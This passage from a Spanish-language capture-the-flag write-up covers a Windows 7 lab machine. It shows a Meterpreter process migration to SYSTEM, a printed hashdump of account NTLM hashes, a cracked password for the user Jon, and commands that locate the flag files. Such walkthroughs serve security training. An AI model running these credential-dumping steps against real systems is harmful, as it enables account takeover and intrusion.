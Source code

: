 Queremos ir a uno de esos porcesos corriendo como AUTHORITY, para esto `migrate 2800` y nos pasara al ps de cmd. Luego aqui debemos analizar los usuarios presentes.

```shell
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

- El user se llama Jon
- Si vamos a [CrackStation.net](https://crackstation.net/) tenemos su password `alqfna22`.

## Phase 4: Flags

Aqui podremos explorar la estructura de windows ooooo simplemente usar meterpeter

```shell
meterpreter > search -f flag1.txt
meterpreter > search -f flag2.txt
meterpreter > search -f flag3.txt
```

## Conclusiones
- La maquina es muy buena para practicar metasploit y meterpreter aunque sea un poco inestable la ejecucion del exploit. 
- Si siguen usando windows 7 quizas sea buena idea hacer una update...


